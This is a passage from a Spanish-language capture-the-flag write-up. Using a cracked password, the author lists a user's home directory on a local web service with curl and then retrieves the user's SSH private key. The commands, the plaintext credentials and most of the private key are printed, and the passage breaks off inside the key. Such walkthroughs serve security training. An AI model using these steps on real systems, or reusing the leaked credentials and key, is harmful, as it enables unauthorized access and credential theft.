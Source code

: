 Despues de realizar el crackeo `john`, nos reporta la contraseña en texto claro, asi que ahora que contamos con credenciales validar `webapi_user:iamthebest`, podemos usarlas en la petición.


```bash
curl -s -X GET "http://127.0.0.1:3001/~r.michaels/" -u 'webapi_user:iamthebest'
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
	border-top: 1px solid black;
	border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```

Esta vez podemos listar el contenido del usuario `r.michaels` y dentro vemos su `id_rsa`.

Ahora tal y como nos dice el articulo de `NETBSD`, podemos hacer uso del paramtro `-G` para ver el output.

```bash
curl -s -X GET "http://127.0.0.1:3001/~r.michaels/id_rsa" -u 'webapi_user:iamthebest' -G id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
```